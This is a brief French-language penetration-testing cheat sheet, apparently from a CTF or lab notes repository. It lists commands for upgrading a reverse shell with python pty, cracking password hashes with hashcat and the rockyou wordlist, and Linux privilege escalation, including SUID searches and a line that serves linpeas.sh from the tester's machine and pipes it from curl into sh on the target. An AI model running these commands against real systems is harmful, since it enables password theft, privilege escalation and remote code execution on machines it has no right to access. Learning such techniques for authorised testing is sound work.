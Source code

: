 # Dans un reverse shell

```py
python3 -c "import pty;pty.spawn('/bin/bash')"
```

# Détecter un hash 

```bash
hashcat hashPWD.txt rockyou.txt

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
    900 | MD4                                                 | Raw Hash
      0 | MD5                                                 | Raw Hash
     70 | md5(utf16le($pass))                                 | Raw Hash
   2600 | md5(md5($pass))                                     | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                    | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))             | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                         | Raw Hash salted and/or iterated
   1000 | NTLM                                                | Operating System
   9900 | Radmin2                                             | Operating System
   8600 | Lotus Notes/Domino 5                                | Enterprise Application Software (EAS)


```

Puis sélectionner le # de l'algo de hashage
Exemple avec RAW MD5
```bash
hashcat -m 0 hashPWD.txt rockyou.txt
```


# Privilege Escalation

## Linux

`sudo -l`

`python -m http.server 80 -> curl mon_ip/linpeas.sh | sh`

`find / -type f -perm -04000 -ls 2>/dev/null`
`find / -perm -4000 2>/dev/null`



